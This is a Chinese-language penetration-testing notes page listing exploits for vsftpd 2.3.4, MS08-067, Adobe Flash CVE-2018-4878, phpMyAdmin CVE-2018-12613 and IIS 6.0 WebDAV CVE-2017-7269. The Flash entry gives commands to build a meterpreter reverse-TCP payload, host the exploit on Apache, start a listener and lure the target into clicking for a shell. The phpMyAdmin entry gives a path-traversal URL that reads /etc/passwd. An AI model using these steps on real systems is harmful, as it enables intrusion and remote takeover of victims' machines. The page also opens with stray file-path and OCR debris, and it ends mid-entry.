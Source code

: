 此时需要改掉原来自带的监听端口和服务的8080端口

即可

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image92.png){width="5.760416666666667in"
height="3.013624234470691in"}

vsftp2.3.4

MS08-067

**CVE-2018-4878**

漏洞实现诱导用户点击恶意网站，可获得shell权限

漏洞影响：小于或等于Adobe Flash Player 28.0.0.137版本

使用msfvenom生产kali payload shell代码

Msfvenom --p windows/meterpreter/reverse_tcp lhost=172.16.1.17
lport=4444 --f python \> shellcode.txt

Cat shellcode.txt查看代码内容并复制

进入cve-2018-4878目录（没有就下载）

Vim cve-2018-4878.py 将里面的代码替换

Python cve-2018-4878.py 执行cve代码

开启apache2服务 将exploit.swf 和index2.html拷贝到/var/www/html

Cp exploit.swf index2.html /var/www/html

然后开启msfconsole进入监听模块/exploit/multi/handler

配置好后run --j

让目标访问index2.html诱导点击链接

成功拿到shell

**CVE-2018-12613**

漏洞实现远程文件包含

影响版本：

Phpmyadmin 4.8.0/4.8.0.1/4.8.1

漏洞发现：

登录进phpmyadmin后在url添加<http://IP/index.php?target=db_sql.php%253f/../../../../../etc/passwd>

实现包含/etc/passwd文件说明漏洞存在 

**CVE-2017-7269**

漏洞实现远程代码随意执行

影响版本：Microsoft Windows Server 2003 R2 开启WebDAV服务的IIS 6.0

使用nmap的webdav脚本扫描
